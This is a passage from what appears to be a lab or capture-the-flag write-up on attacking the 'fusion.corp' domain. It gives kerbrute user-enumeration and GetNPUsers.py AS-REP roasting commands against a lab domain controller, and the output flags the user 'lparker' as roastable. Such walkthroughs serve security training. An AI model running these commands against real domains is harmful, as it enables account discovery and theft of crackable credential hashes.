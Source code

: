 ### Port 88

If we try to validate with Kerberos the previously extracted list of users using kerbrute we will get that only one user out of the 11 obtained is existing at domain: is the `lparker` user.

```bash
kerbrute userenum usernames.txt --dc 10.10.44.233 -d fusion.corp
```

<figure><img src="../../.gitbook/assets/image (706).png" alt=""><figcaption></figcaption></figure>

Trying to see if the `lparker` user is <mark style="color:yellow;">**ASREProastable**</mark>, we get in the `AS_REP` package the encripted TGS using the private key of the lparker user:

{% code overflow="wrap" %}
```bash
GetNPUsers.py fusion.corp/ -usersfile usernames.txt -format hashcat -outputfile hashes.asreproast
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (707).png" alt=""><figcaption></figcaption></figure>
